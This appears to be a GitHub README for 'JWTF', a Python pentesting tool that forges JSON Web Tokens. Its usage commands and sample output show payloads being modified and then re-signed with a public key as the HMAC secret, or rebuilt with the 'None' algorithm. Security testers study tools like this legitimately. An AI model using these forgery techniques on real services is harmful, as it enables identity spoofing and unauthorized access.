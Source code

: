 # JWTF?!  
  
JWTF was built to help me further understand some funky attacks against JSON Web Tokens. So far this tool will take an existing JWT and allow the payload to be modified either dynamically (within an interactive shell - default), or automatically by supplying the choice and forcing it to run in one-liner mode.
  
Modes:  
  
0: Runs all  
1: Allows patching and resigns target JWT with provided public key   
2: Allows patching and rebuilds JWT with None algorithm  
  
Interactive Usage (Mode = 1):  
```
python3 jwtf.py 1 --key="test.pub" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```

Output:
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [1] Resign with public key

[*] Loading public key from: test.pub
lol

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] JWT is already HS256
	Header: {'alg': 'HS256', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1  
New value for name (type: <class 'str'>): Terry
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Terry : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Terry', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlRlcnJ5IiwgImlhdCI6IDE1MTYyMzkwMjJ9.R5y0MxNrDDg6c-6X-6iMLP4wtObZmw3vrogjpOzGCLA
----------------------------------
```
  
Interactive Usage (Mode = 2):  
```
python3 jwtf.py 2 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5"
```

Output:
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : John Doe : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: 1
New value for name (type: <class 'str'>): Susan
Current payload options:
	[0] -> sub : 1234567890 : <class 'str'>
	[1] -> name : Susan : <class 'str'>
	[2] -> iat : 1516239022 : <class 'int'>
[-1] -> Finish patching

Select the value above you want to patch: -1
[*] Finished patching
	Payload: {'sub': '1234567890', 'name': 'Susan', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogIlN1c2FuIiwgImlhdCI6IDE1MTYyMzkwMjJ9.
----------------------------------
```

One-liner Usage (Mode = 2):
```
python3 jwtf.py 2 --choices="name:jeff" "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5" --ol
```

Output:
```
JWT the F**K?!
Just trying to further understand web tokens...
 - Gary @crawl3r

Mode: [2] Rebuild with None

[*] Decoding supplied JWT
	Header: {'alg': 'HS256', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'John Doe', 'iat': 1516239022}
[*] Algorithm patched to None
	Header: {'alg': 'None', 'typ': 'JWT'}
	Payload: {'sub': '1234567890', 'name': 'jeff', 'iat': 1516239022}
New JWT created and signed:
----------------------------------
eyJhbGciOiAiTm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiMTIzNDU2Nzg5MCIsICJuYW1lIjogImplZmYiLCAiaWF0IjogMTUxNjIzOTAyMn0.
----------------------------------
```